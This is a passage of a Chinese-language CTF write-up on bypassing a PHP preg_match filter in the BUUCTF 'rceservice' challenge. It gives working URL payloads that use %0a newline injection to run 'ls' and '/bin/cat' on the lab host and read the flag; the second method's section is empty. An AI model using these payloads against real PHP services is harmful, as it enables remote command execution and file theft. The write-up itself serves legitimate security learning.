 ```php

?>
```

json格式参考：[json的几种标准格式_json格式-CSDN博客](https://blog.csdn.net/weixin_48185778/article/details/109822965)

两种方法：

1.使用%0a换行符绕过。因为preg_match只匹配第一行。
2.回溯次数绕过 

###### %0a换行符绕过

直接改url里面传入的参数

```
http://51fe169a-ce2c-40d8-9fa9-0c0acfa17e0f.node5.buuoj.cn:81/?cmd={%22cmd%22:%22ls%22}
```

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227104919552.png" alt="image-20240227104919552" style="zoom:50%;" />

```
http://51fe169a-ce2c-40d8-9fa9-0c0acfa17e0f.node5.buuoj.cn:81/?cmd={%0a%22cmd%22:%22ls%20/%22%0a}
```

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227161226305.png" alt="image-20240227161226305" style="zoom:50%;" />

找到flag的位置：

```
http://3ba79781-e8cf-4c71-bb33-5aca1e7231fd.node5.buuoj.cn:81/?cmd={%0a%22cmd%22:%22ls%20/home/rceservice%22%0a}
```

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227162250313.png" alt="image-20240227162250313" style="zoom:50%;" />

直接cat没有反应：

cat在这里仍然不能用。应该是环境变量配置被改变，所以需要使用/bin/cat调用命令

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227162808247.png" alt="image-20240227162808247" style="zoom:50%;" />

找到bin里面的cat：

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227162935174.png" alt="image-20240227162935174" style="zoom:50%;" />

```
http://51fe169a-ce2c-40d8-9fa9-0c0acfa17e0f.node5.buuoj.cn:81/?cmd={%0a%22cmd%22:%22/bin/cat%20/home/rceservice/flag%22%0A}
```

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227104848186.png" alt="image-20240227104848186" style="zoom: 50%;" />



###### 回溯次数绕过 
